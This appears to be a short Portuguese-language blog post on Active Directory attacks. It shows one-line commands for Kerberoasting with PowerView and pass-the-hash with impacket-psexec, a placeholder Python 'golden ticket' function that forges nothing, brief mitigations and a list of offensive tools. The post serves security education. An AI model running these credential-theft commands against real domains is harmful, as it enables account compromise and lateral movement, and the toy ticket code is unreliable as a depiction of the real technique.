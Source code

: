 ```yaml
---
title: "Advanced Active Directory Exploitation Techniques"
excerpt: "Deep dive into advanced Active Directory exploitation techniques and mitigation strategies..."
image: "https://images.unsplash.com/photo-1526374965328-7f61d4dc18c5?auto=format&fit=crop&q=80"
tags: ["Active Directory", "Exploitation"]
author: "lucas"
---
```


# Advanced Active Directory Exploitation

Neste post, vamos explorar técnicas avançadas de exploração do Active Directory e como se proteger contra elas.

## Kerberoasting Attack

O Kerberoasting é uma técnica que explora o protocolo Kerberos para obter credenciais:

\`\`\`powershell

# Exemplo de comando para extrair tickets

Get-DomainUser -SPN | Get-DomainSPNTicket -Format Hashcat
\`\`\`

## Pass-the-Hash

Uma técnica clássica que permite reutilizar hashes NTLM:

\`\`\`bash

# Usando o Impacket para PtH

impacket-psexec DOMAIN/Administrator@TARGET -hashes :HASH
\`\`\`

## Golden Ticket Attack

O ataque Golden Ticket é um dos mais poderosos:

\`\`\`python

# Exemplo de código para criar um Golden Ticket

def create_golden_ticket(domain_sid, krbtgt_hash):
ticket = {
'domain_sid': domain_sid,
'krbtgt_hash': krbtgt_hash,
'user_id': 500, # Admin
'groups': [512, 513, 518, 519] # Domain Admin groups
}
return ticket
\`\`\`

## Mitigação

Para se proteger contra esses ataques:

1. Implementar PAM (Privileged Access Management)
2. Usar autenticação multi-fator
3. Monitorar eventos suspeitos
4. Realizar auditorias regulares

## Ferramentas Úteis

- BloodHound para mapeamento
- Mimikatz para extração de credenciais
- PowerView para enumeração
- CrackMapExec para testes

## Conclusão

A segurança do Active Directory é crítica e requer atenção constante. Mantenha-se atualizado com as últimas técnicas e implemente as melhores práticas de segurança.
